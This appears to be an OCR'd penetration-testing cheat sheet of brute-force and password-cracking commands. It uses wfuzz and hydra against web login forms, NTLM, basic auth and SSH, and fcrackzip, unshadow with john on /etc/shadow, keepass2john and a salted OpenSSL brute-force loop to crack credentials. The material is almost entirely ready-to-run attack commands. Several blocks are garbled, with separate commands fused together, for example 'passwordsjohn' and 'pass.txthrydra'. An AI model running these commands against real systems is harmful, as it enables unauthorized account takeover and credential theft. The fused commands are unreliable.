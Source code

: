 # **Brute Force** #

## **Weak Credentials** ##

### **HTTP Brute Force** ###

* **wfuzz POST**
```
wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://ip/admin/index.php
```

* **hydra POST**
```
hydra ip -s 80 http-form-post "/admin/index.php:user=^USER^&password=^PASS^:Moved Temporarily" -l admin -P /root/Documents/SecLists/Passwords/korelogic-password.txt -t 20
```

* **wfuzz NTLM**
```
wfuzz -c --ntlm "admin:FUZZ" -z file,/root/Documents/SecLists/Passwords/darkc0de.txt --hc 401 https:///api
```

* **wfuzz Basic Auth through Proxy**
```
wfuzz -c --hc 404,400,401 -z file,/root/Documents/Audits/Activos/names.txt -z file,/root/Documents/Audits/Activos/names.txt --basic "FUZZ:FUZ2Z" -p 127.0.0.1:8080 https:///api/v1/
```

### **Password Cracking** ###

* **zip**
```
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt file.zip
```

* **/etc/shadow**

```
unshadow passwd shadow > passwordsjohn --wordlist=/usr/share/wordlists/rockyou.txt passwords
```

* **keepass**

```
keepass2john /root/Desktop/NewDatabase.kdb > filejohn -incremental:alpha -format=keepass file
```

* **Bruteforce Salted**

```
for j in $(cat cipher); do echo $j; for i in $(cat digestion); do /root/Documents/HTB/Hawk/bruteforce-salted-openssl/bruteforce-salted-openssl -t 10 -f /usr/share/wordlists/rockyou.txt -c $j -d $i ../miau.txt -1 2>&1 | grep "candidate" ; done ; done
```

```
openssl aes-256-cbc -d -in ../miau.txt -out result.txt -k friends
```

* **Port 22**

```
hydra -f -V -t 1 -C /usr/share/SecLists-5c9217fe8e930c41d128aacdc68cbce7ece96e4f/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt -s 22 $IP ssh​
```

* **Hydra for login bypass**

```
Hydra for login bypass:hydra http://XXXX http-form-post "/TARGETPATH/TARGETPAGE.php:user=^USER^&pass=^PASS^:Bad login" -L users.txt -P pass.txthrydra -C /seclist/tomcat-betterdefaultpasslist http-get://ip:port/manager/htmlhydra -C /root/attacker-framework/SecLists/Passwords/Default-Cr edentials/tomcat-betterdefaultpasslist.txt http-get://ip:8080/manager/html
```

* **Zip file Bruteforce**

```
 fcrackzip -D -v -u -p /usr/share/wordlists/rockyou.txt backup.zip​
```

* **John**

```
 john --wordlist=/usr/share/wordlists/rockyou.txt keepass-hash.txt​
```

